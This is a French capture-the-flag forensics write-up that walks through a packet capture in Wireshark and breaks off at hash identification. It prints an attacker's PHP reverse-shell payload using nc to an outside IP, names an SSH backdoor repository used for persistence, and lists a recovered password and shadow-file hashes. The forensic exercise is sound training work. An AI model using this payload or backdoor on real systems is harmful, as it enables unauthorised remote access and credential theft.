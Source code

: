 # Task 1 - Forensics - Aanlyse th PCAP

## What was the URL of the page they used to upload a reverse shell?

Dans un premier temps, télécharger le document et l'ouvrir avec Wireshark. 

On tombe sur plusieurs requêtes, et la première requête HTTP fait un GET sur l'adresse 192.168.170.159/developement/

Réponse 1 : **/developement/**

## What payload did the attacker use to gain access?

Comme on sait qu'il faut intéragir avec l'application web, on filtre les protocoles par **HTTP**

Ensuite, on remarque qu'une URL se nomme : **/development/upload.php**

Pour voir l'interrieur de la trame, on fait un clic droit > Follow > HTTP Stream 

On fait une recherche CTRL+F et comme on recherche un fichier, on notre **php**. Sur les premiers résultat on voit 
qu'il sagit bien d'un payload, et en regardant les suivants, on s'aperçoit que la requête du fichier est en clair : 

Réponse 2 : **<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>**

## What password did the attacker use to privesc?

On continue de chercher dans les trames du dessous et à un moment, on s'aperçoit du résultat d'une requête "/bin/s h: 0: can't acce ss tty; job cont rol turn ed off $".
A partir de ce moment, on comprends qu'il s'agit des commandes reçu d'un terminal, donc on analyse la trame : 
clic droit > Follow > TCP Stream et on voit toutes les commandes et résultat du terminal. 

Réponse 3 : **whenevernoteartinstant**

## How did the attacker establish persistence? 

On continue d'analyser la même tram et on comprend qu'il télécharge une backdoor ssh via github et qu'il 
l'execute : 

Réponse 4 : **https://github.com/NinjaJc01/ssh-backdoor**

## Using the fasttrack wordlist, how many of the system passwords were crackable?

On commence par créer un fichier avec les différents hash qu'on peut retrouver dans la tram TCP 
``` 
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.
```
Pour identifier le type de hash, on utilise un tool, HashId :
